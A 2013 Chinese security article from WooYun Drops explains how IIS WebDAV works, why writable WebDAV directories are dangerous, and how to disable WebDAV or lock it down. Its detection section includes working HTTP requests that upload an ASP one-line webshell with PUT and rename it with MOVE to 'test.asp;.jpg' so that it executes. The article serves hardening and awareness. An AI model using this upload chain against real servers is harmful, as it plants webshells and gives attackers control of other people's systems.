


# IIS WebDAV 安全配置

2013/07/15 16:31 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 简介

* * *

WebDAV 是一种基于 HTTP 1.1 协议的通信协议.它扩展了 HTTP 1.1，在 GET、POST、HEAD 等几个 HTTP 标准方法以外添加了一些新的方法。

使应用程序可直接对 Web Server 直接读写，并支持写文件锁定(Locking)及解锁(Unlock)，还可以支持文件的版本控制。

IIS 实现 Webdav 是采用的其两种接口 CGI、ISAPI 的 ISAPI 接口。

但因为其没有采用影射的方式，所以 IIS 的主程序 w3svc.dll 本身包含了 Webdav 的信息。

其识别出是 Webdav 的请求后就调用 Webdav 的处理模块 httpext.dll。

对于常见几种请求方法`GET、HEAD、POST`等，因为常见一些映射都支持。

所以不能以请求方法作为 Webdav 请求的判断，w3svc.dll 就根据请求头的字段识别。

如果请求头里面包含`Translate:`、`If:`、`Lock-Token:`中的一种，就认为是 Webdav 的请求。

`Translate:`就是那个`Translate:f`的泄露源代码的一个请求头，其实设置别的两个也是一样的。

可能很多 IDS 是没有这点知识的。W3svc.dll 还内置了几个别的请求方法`TRACK`、`TRACE`等。

`TRACK`就是用于调试错误的，如果收到这样的请求头，w3svc.dll 会原样返回请求数据。

相当于我们常见的 ping.exe。

IIS 对`TRACK`请求没有进行 LOG 记录，这点我们可以用于来获得 banner。

对于 IIS 将优于大家习惯使用的`HEAD`。

如果上面的请求方法没匹配，那么 w3svc.dll 就会认为是 Webdav 的请求，交给 httpext.dll 处理了。

这些请求包含 Webdav 支持的`PROPFIND`、`PROPPATCH`、`MKCOL`、`DELETE`、`PUT`、`COPY`、`MOVE`、`LOCK`、`UNLOCK`等。

### 0x01 配置

* * *

为了安全上的考虑，IIS 默认并不会启动 WebDAV 的功能，因此必须另外来激活它。

通过启动“IIS 管理器”，展开本地计算机，选择“Web 服务扩展”，选择“允许”的途径来启动 WebDAV 功能。

开启 WebDAV 之后，IIS 就支持`PROPFIND`、`PROPPATCH`、`MKCOL`、`DELETE`、`PUT`、`COPY`、`MOVE`、`LOCK`、`UNLOCK`等方法了。


当 IIS 中的配置允许写入的时候就可以直接 PUT 文件上去，由此可能引发非常严重的安全问题，强烈建议禁制



### 0x02 危害

* * *

当开启了 WebDAV 后，IIS 中又配置了目录可写，便会产生很严重的问题。 wooyun 上由此配置产生的问题很多，并且有老外黑了一群中国政府站有一部分就是由于此配置。 危害巨大，操作简单，直接批量扫描，上传 shell。

[WooYun: 闪动科技 webserver 配置不当可取 shell](http://www.wooyun.org/bugs/wooyun-2013-018158)

[WooYun: 瑞达信息安全产业股份有限公司 IIS 写入漏洞](http://www.wooyun.org/bugs/wooyun-2011-02238)

[WooYun: 海航 webdav 漏洞导致服务器沦陷](http://www.wooyun.org/bugs/wooyun-2011-02765)

[WooYun: 阿里某邮件系统服务器配置不当](http://www.wooyun.org/bugs/wooyun-2011-03581)

[WooYun: 国家某局某文件系统存在严重安全问题](http://www.wooyun.org/bugs/wooyun-2012-05911)

[WooYun: 国内某大型风电工控系统应用配置失误](http://www.wooyun.org/bugs/wooyun-2012-06196)

### 0x03 查找存在问题的服务器

* * *

对服务器发送 OPTION 包：

```
OPTIONS / HTTP/1.1
Host: www.test.com 
```

返回响应头如下：

```
HTTP/1.1 200 OK
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
MS-Author-Via: DAV
Content-Length: 0
Accept-Ranges: none
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Cache-Control: private 
```

当 ALLOW 中包含如上方法时，可以确定服务器开启了 WebDAV。

此时可以用 PUT 上传文件，但是不可以直接上传可执行脚本文件，可以先上传一个其他类型的文件，然后 MOVE 成脚本文件。

```
PUT /test.txt HTTP/1.1
Host: www.test.com
Content-Length: 23

<%eval request("a")%> 
```

启用了“WebDAV”扩展，并且复选了“写入”，就可以写入 txt 文件了。要想使用 MOVE 命令将其更名为脚本文件后缀，必须还复选上“脚本资源访问”。

但是发现利用 IIS 的解析漏洞，可以 MOVE 成`test.asp;.jpg`，然后就可以当做 shell 来执行了

```
MOVE /test.txt HTTP/1.1
Host: www.test.com
Destination: http://www.test.com/test.asp;.jpg 
```

有一个开源的 DAV 管理工具，使用工具直接查看：

[`www.davexplorer.org/download.html`](http://www.davexplorer.org/download.html)

### 0x03 修复方案

* * *

#### 1 禁用 WebDAV。

通常情况下网站不需要支持额外的方法，右键 WebDAV，点击禁用即可。

#### 2 如果要使用 WebDAV 的话，加上权限验证。

如果选取“脚本资源访问”，则用户将具备修改 WebADV 文件夹内的脚本文说明件(scriptfile)的功能。

除了此处的虚拟目录权限外，还需要视 NTFS 权限，才可以决定用户是否有权限来访问 WebDAV 文件夹内的文件。

WebDAV 文件夹的 NTFS 权限给予用户适当的 NTFS 权限。

首先请设置让 Everyone 组只有“读取”的权限，然后再针对个别用户给予“写入”的权限，例如我们给予用户“User”写入的权限。

选择验证用户身份的方法启动“IIS 管理器”，然后右击 WebDAV 虚拟目录，选择“属性”→“目录安全性”，单击“身份验证和访问控制”处的编辑按钮。

不要选取“启用匿名访问”，以免招致攻击。选择安全的验证方法，选择“集成 Windows 身份验证”。



参考：

[`hi.baidu.com/yuange1975/item/a836d31096b5b959f1090e89`](http://hi.baidu.com/yuange1975/item/a836d31096b5b959f1090e89)

[`www.daxigua.com/archives/1597`](http://www.daxigua.com/archives/1597)

[`www.daxigua.com/archives/2750`](http://www.daxigua.com/archives/2750)

[`www.daxigua.com/archives/2747`](http://www.daxigua.com/archives/2747)

[`blog.163.com/wfruee@126/blog/static/4116699420123261427232/`](http://blog.163.com/wfruee@126/blog/static/4116699420123261427232/)

**Tags:** [IIS](http://drops.wooyun.org/tag/iis), [服务器配置](http://drops.wooyun.org/tag/%e6%9c%8d%e5%8a%a1%e5%99%a8%e9%85%8d%e7%bd%ae)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [SVN 安装配置及安全注意事项](http://drops.wooyun.org/tips/352)
*   [Rsync 安全配置](http://drops.wooyun.org/papers/161)
*   [IIS7.5 安全配置研究](http://drops.wooyun.org/papers/1019)
*   [DNS 域传送信息泄露](http://drops.wooyun.org/papers/64)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [header 的安全配置指南](http://drops.wooyun.org/tips/1166)